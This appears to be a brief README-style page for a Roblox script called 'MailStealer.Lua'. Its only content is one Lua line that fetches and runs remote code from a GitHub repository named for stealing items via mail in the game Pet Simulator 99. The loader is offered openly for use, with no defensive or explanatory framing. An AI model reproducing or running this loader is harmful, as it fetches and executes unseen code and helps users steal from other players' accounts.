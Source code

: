 # MailStealer.Lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
